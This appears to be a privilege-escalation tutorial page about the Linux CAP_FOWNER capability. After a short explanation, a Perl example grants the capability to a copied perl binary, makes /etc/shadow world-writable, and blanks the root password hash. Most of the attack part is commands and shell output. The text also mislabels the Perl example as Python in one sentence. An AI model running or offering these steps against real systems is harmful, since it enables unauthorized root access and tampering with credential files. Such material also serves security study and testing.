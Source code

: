 # Privilege Escalation via CAP_FOWNER

The `CAP_FOWNER` capability in Linux allows a process to bypass file ownership checks. This means that a process with this capability can perform operations on files as if it were the owner of those files. Here are some key points about `CAP_FOWNER`:

1. **Bypass Ownership Checks**: It allows processes to ignore the ownership of files when performing operations such as reading, writing, or executing.
2. **Modify File Attributes**: Processes can change file attributes, such as permissions, without being the file owner.
3. **Override Restrictions**: It can override certain restrictions that are normally enforced based on file ownership, providing greater flexibility in managing files.

This capability is particularly useful for system administrators and certain system processes that need to manage files across different users without being restricted by file ownership. However, it should be used with caution, as it can pose security risks if misused.

## Perl Example

Copy the Perl binary to the current folder:

```sh
cp $(which perl) . 
```

The capability `CAP_FOWNER` allows us to **change the permission of a file**.

```shell
user@pwn:~$ sudo /usr/sbin/setcap cap_fowner+ep ./perl
user@pwn:~$ getcap -r ./perl
./perl = cap_fowner+ep
```

The original `/etc/shadow` permissions are the following:

```shell
user@pwn:~$ ls -la /etc/shadow
-rw-r----- 1 root shadow 1610 oct 25 15:44 /etc/shadow
```

If Python has this capability we can modify the permissions of the shadow file, then change the root password, and as a result, elevate privileges:

```shell
./perl -e 'chmod 0666, "/etc/shadow"'
```

Change the root password:

```shell
user@pwn:~$ ls -la /etc/shadow
-rw-rw-rw- 1 root shadow 1610 oct 25 15:44 /etc/shadow
user@pwn:~$ vim /etc/shadow
user@pwn:~$ cat /etc/passwd | grep ^root
root::0:0:root:/root:/bin/bash # Doesn't matter if it has the x
user@pwn:~$ cat /etc/shadow | grep ^root
root::18918:0:99999:7:::
```
